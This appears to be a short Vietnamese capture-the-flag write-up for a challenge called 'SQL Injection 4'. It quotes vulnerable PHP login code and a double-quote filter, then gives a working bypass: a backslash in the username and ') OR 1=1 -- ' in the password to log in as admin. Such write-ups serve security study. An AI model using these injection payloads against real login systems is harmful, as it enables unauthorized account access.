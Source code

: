 # SQL Injection 4
# Mục tiêu: Login as admin
# 🔥 Phân tích lỗ hổng
```
$sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
```
Nhưng lại bị chặn
```
function checkValid($data)
{
    if (strpos($data, '"') !== false)
        return false;
    return true;
}
```
Bây h cần làm sao để sử dụng được những `"` có sẵn và thoát ra khỏi `()`  

Ở đây ở username = `admin\` mục đích để escape.
Ở password = `) OR 1=1 -- ` đóng ngoặc để sử dụng `"` có sẵn `or 1=1` luôn đúng.
```
SELECT username FROM users WHERE username=LOWER("admin\") AND password=MD5(") OR 1=1 -- ")
```